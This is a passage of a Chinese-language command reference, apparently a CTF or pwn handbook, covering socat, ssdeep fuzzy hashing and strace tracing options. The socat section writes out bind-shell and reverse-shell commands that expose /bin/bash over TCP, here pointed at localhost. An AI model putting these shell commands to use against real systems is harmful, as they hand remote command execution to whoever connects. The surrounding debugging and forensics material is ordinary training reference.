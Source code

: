 ```text
$ socat - TCP:localhost:80
```

监听端口

```text
$ socat TCP-LISTEN:700 -
```

正向 shell

```text
$ socat TCP-LISTEN:700 EXEC:/bin/bash
```

反弹 shell

```text
$ socat tcp-connect:localhost:700 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

将本地 80 端口转发到远程的 80 端口

```text
$ socat TCP-LISTEN:80,fork TCP:www.domain.org:80
```

fork 服务器

```text
$ socat tcp-l:9999,fork exec:./pwn1
```

跟踪 malloc 和 free 调用及相应的地址：

```text
$ socat tcp-listen:1337,fork,reuseaddr system:"ltrace -f -e malloc+free-@libc.so*  ./pwn"
```

## ssdeep

模糊哈希算法又叫基于内容分割的分片分片哈希算法（context triggered piecewise hashing, CTPH），主要用于文件的相似性比较。

```text
-m - Match FILES against known hashes in file
-b - Uses only the bare name of files; all path information omitted
```

```text
$ ssdeep -b orginal.elf > hash.txt
$ ssdeep -bm hash.txt modified.elf
```

## strace

**strace** 命令对应用的系统调用和信号传递的跟踪结果进行分析，以达到解决问题或者是了解应用工作过程的目的。

```text
-i             print instruction pointer at time of syscall
-o file        send trace output to FILE instead of stderr
-c             count time, calls, and errors for each syscall and report summary
-e expr        a qualifying expression: option=[!]all or option=[!]val1[,val2]...
   options:    trace, abbrev, verbose, raw, signal, read, write, fault
-p pid         trace process with process id PID, may be repeated
-f             follow forks
```
